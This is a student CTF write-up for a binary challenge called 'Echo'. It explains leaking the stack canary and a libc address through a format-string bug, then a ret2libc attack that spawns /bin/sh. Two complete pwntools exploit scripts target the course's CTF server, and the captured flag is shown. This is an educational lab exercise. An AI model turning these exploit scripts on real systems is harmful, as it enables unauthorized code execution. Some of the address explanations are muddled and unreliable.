 # Optional CTF - Echo

1. Firstly, we checked the file given using the checksec command.

![Image 01 - checksec file program](CTFs/Opcionals/Img/4-Echo/1.checksec_program.png)

- Seeing the resuts, we can conclude that it's going to be difficult to overwrite the stack beacause this stack as a canary protecting him.

- After some time thinking, we got to the conclusion that we would need to overwrite the return address, and in order to do this we would need to store the canary's value.

- We were given the _libc_ library. We can now use the _strings_ utility to find the offset of string **/bin/sh** relative to the start of the libc binary:

```bash
strings -a -t x libc.so.6 | grep "/bin/sh"
```

![Image 02 - /bin/sh address](CTFs/Opcionals/Img/4-Echo/2.bin_sh_address.png)

- This means that, in our vulnerable program, at address 0x1bd0f5 we should see the string `/bin/sh`.

2. Secondly, we need to find the offset address of the _libc_ library.

```bash
readelf.py -s libc.so.6 lgrep system
```

![Image 03 - base address of the _libc_ library](CTFs/Opcionals/Img/4-Echo/3.glibc_library_address.png)

- In this case, we can conclude that the memeory address of the offset of the _libc_ library is `0x00048150`.

3. Thirdly, we need to find the address where the vulnerability starts in our program.

```bash
(gdb) info proc map
```

- From the output we can conclude that the base address of the _libc_ library where the vulnerability starts in our _program_ file is at 0xf7d89000.


4. After getting all this values, we can create a python script that prints all the values that are on the memory interval of the _libc_ library. 

```py
#!/usr/bin/python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4002)

for i in range(1,14):
    p.recvuntil(b">")
    p.sendline(b"e")
    p.recvuntil(b"Insert your name (max 20 chars): ")
    p.sendline("%" + str(i) + "$10p")
    answer = p.recvline()
    print("i: ", i, "->stack", answer)
    p.recvuntil(b"Insert your message: ")
    p.sendline(b"")

p.interactive()
```

![Image4 - getValues.py file result](CTFs/Opcionals/Img/4-Echo/4.address_in_the_middle_of_the_stack.png)

- From the result, we need to store the value that is between the start address of the program file and the end address of the same. We ca conclude, in this case, that the value is `0xf7e24ecb`. In our case, we used the value got on the 1st try `0xf7daa519`.

5. After getting all this 5 values, we need to create a python script in order to unloack the working directory and cat the flag.

```py
#!/usr/bin/python3
from pwn import *

LOCAL = False

valueInTheMiddleLibc = 0xf7daa519
addressLib = 0xf7d89000
referenceLibOffset = valueInTheMiddleLibc - addressLib
systemLibOffset = 0x00048150
shLibOffset = 0x1bd0f5

def sendMessage(p,message):
	p.recvuntil(b">")
	p.sendline(b"e")
	p.recvuntil(b"Insert your name (max 20 chars): ")
	p.sendline(message)
	answer = p.recvline()
	p.recvuntil(b"Insert your message: ")
	p.sendline(b"")
	
	return answer

if LOCAL:
	pause()
else:
	p = remote("ctf-fsi.fe.up.pt", 4002)

message1 = sendMessage(p, b"%8$x - %11$x")

canary, referenceVal = [int(val,16) for val in message1.split(b'-')]

libBase = referenceVal - referenceLibOffset
addressSystem = libBase + systemLibOffset
addressSH = libBase + shLibOffset

message2 = flat(b"A"*20, canary + 1, b"A"*8, addressSystem, b"A"*4, addressSH)

sendMessage(p,message2)

message3 = b"E"*19

sendMessage(p,message3)

p.interactive()
```

- Running this python script, we are able to enter the working directory and get the _flag.txt_.

![Image5 - exploit-example.py result, flag](CTFs/Opcionals/Img/4-Echo/5.flag_result.png)


### Flag

`flag{122d40cb0dd355c631057cf597de3dac}`

<span>* We based our research and procedure in the website: https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc .</span>
